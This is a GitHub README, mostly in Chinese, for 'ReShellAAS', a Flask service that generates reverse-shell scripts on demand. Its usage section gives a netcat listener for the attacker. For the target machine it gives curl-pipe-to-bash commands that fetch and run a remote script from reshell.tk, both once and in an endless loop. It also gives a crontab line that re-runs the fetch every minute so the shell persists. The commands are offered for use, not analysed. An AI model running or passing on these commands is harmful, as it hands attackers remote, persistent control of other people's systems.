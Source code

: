 # ReShellAAS
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Ftonghuaroot%2FReShellAAS.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Ftonghuaroot%2FReShellAAS?ref=badge_shield)

Reverse Shell as a Service
反弹shell即服务

# 项目简介
无需再去记住复杂的反弹shell命令，通过Reverse Shell as a Service可以方便、快捷的创建反弹shell脚本。

# 安装及服务端启动方法
```
pip3 install flask
python3 app.py
```

# 使用方法
## Attacker Machine
```
nc -l 1337
```

## Target Machine
```
curl http://reshell.tk/ip/1337 | bash
或者
while true; do curl http://reshell.tk/ip/1337 | bash; done
```
配合crontab使用效果更佳
```
crontab -e
* * * * * /usr/bin/curl http://reshell.tk/ip/1337 | bash
```

# 致谢
感谢P师傅以及P师傅的知识星球以及原创这个点子的小机灵鬼。

# TODO
- 适应多场景的反弹shell语法
- etc...



## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Ftonghuaroot%2FReShellAAS.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Ftonghuaroot%2FReShellAAS?ref=badge_large)